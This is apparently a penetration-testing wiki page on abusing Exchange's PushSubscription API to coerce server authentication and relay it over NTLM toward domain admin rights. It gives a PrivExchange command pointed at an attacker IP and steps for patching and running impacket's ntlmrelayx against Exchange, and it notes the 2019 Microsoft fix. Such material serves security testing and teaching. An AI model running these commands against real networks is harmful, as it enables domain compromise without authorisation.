 # PushSubscription abuse

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. **The coerced authentication is made over HTTP**, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../ntlm/relay.md#mic-message-integrity-code)). As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) (Python) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) to make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" %}
